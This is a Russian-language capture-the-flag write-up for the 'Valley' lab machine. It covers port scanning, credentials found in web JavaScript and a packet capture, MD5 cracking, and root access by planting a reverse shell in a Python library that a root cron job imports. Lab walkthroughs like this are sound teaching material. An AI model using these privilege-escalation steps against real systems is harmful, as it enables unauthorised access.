# Write-up: Valley (FTP → PCAP → SSH → Python Library Hijacking)

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1000 10.146.185.63
```

```text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
37370/tcp open  ftp     vsftpd 3.0.3
```

FTP анонимно недоступен.

## HTTP

Открываем сайт:


По ссылке `/pricing` редиректит на `/pricing/pricing.html`:



На странице `/pricing` находим `note.txt`:



## Обход через null byte

Пробуем эндпоинт (`00`) в `/static/`:



Читаем `dev notes from valleyDev`:

```text
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

Находим скрытую директорию `/dev1243224123123`:



В `dev.js` находим креды:

```javascript
if (username === "siemDev" && password === "california")
```



## FTP

В `devNotes37370.txt` — заметки для FTP-сервера:

```text
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

Подключаемся на нестандартный порт:

```bash
ftp 10.146.185.63 -P 37370
# siemDev:california
```



Скачиваем все `pcapng` файлы и открываем в Wireshark.

## Анализ PCAP

В `siemHTTP2.pcapng` находим креды:



```text
valleyDev:ph0t0s1234
```

Заходим по SSH:

```bash
ssh valleyDev@10.146.185.63
```

Забираем `user.txt`:



## Повышение прав → valley

В `/home` лежит `valleyAuthenticator`:



Бинарь просит логин и пароль:



Скачиваем его на свою машину:

```bash
scp ./valleyAuthenticator kali@192.168.192.3:/home/kali/
```


`strings` по бинарю:

```text
e6722920bab2326f8217e4
bf6b1b58ac
ddJ1cc76ee3
beb60709056cfbOW
elcome to Valley Inc. Authentica
[k0rHh
 is your usernad
Ol: /passwXd.{
```

Строка `e6722920bab2326f8217e4bf6b1b58ac` — MD5-хэш. Крекаем:



Пароль — `liberty123`. Логин — `valley`:

```text
valley:liberty123
```

## PrivEsc → root

Смотрим `crontab`:

```bash
cat /etc/crontab
```



Видим:

```text
python3 /photos/script/photosEncrypt.py
```

Смотрим скрипт:

```bash
cat /photos/script/photosEncrypt.py
```

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
    image_path = "/photos/p" + str(i) + ".jpg"
    with open(image_path, "rb") as image_file:
        image_data = image_file.read()
    encoded_image_data = base64.b64encode(image_data)
    output_path = "/photos/photoVault/p" + str(i) + ".enc"
    with open(output_path, "wb") as output_file:
        output_file.write(encoded_image_data)
```

Скрипт импортирует `base64`, и запускается по cron от root. Ищем, где лежит `base64.py`:

```bash
find / -name "base64.py" 2>/dev/null
# /usr/lib/python3.8/base64.py
```

Мы входим в группу `valleyAdmin`, поэтому можем редактировать этот файл:



Добавляем reverse shell в `base64.py`:



Ждём срабатывания cron — получаем root-шелл:



## Итоговая схема (Kill Chain)

`HTTP + null byte (dev notes)` → `dev.js (siemDev:california)` → `FTP 37370 (pcapng)` → `Wireshark (valleyDev:ph0t0s1234)` → `SSH` → `valleyAuthenticator (MD5 → liberty123)` → `cron photosEncrypt.py + base64.py hijack (valleyAdmin)` → `root`